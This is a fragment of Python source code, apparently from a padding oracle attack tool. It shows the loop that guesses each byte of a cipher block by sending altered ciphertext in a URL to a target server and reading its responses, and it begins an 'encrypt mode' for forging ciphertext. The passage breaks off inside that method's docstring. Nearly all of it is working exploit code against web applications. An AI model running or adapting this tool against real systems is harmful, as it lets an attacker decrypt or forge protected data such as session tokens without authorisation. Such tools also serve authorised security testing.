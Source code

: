        # If we haven't done analysis mode, we might do it here (omitted for brevity).
        # We'll just show direct approach with known error/ oracle_signature.

        for byte_pos in reversed(range(block_size)):
            pad_val = block_size - byte_pos
            found_correct = False
            for guess in range(256):
                fake_block[byte_pos] = guess

                # Adjust the known discovered bytes so they remain valid for the new pad
                for k in range(byte_pos+1, block_size):
                    fake_block[k] = intermediary[k] ^ pad_val

                combined = bytes(fake_block) + target_block
                combined_encoded = self.my_encode(combined, self.encoding_format)
                if not self.no_encode_option:
                    combined_encoded = urllib.parse.quote(combined_encoded.decode('ascii'), safe='').encode('ascii')

                # Replace the sample in the URL
                test_url = self.url.replace(self.sample, combined_encoded.decode('ascii'), 1)

                status, content, loc, c_len = self.make_request(test_url)

                if self.is_successful(status, content, loc, c_len):
                    # found the correct guess
                    intermediary_val = guess ^ pad_val
                    intermediary[byte_pos] = intermediary_val
                    found_correct = True
                    if self.verbose:
                        print(f"    [BlockByte {byte_pos}] guess={guess}, Intermediary={intermediary_val}")
                    break

            if not found_correct:
                print(f"[!] Byte {byte_pos} not found. Possibly error_string mismatch or ambiguous.")
                # continue with zero or do interactive steps.

        return bytes(intermediary)

    # -------------------------------------------------------
    # ENCRYPT MODE
    # -------------------------------------------------------
    def encrypt_mode(self, plaintext: bytes):
        """
        Reverse the padding oracle to produce a forged ciphertext for 'plaintext'.
        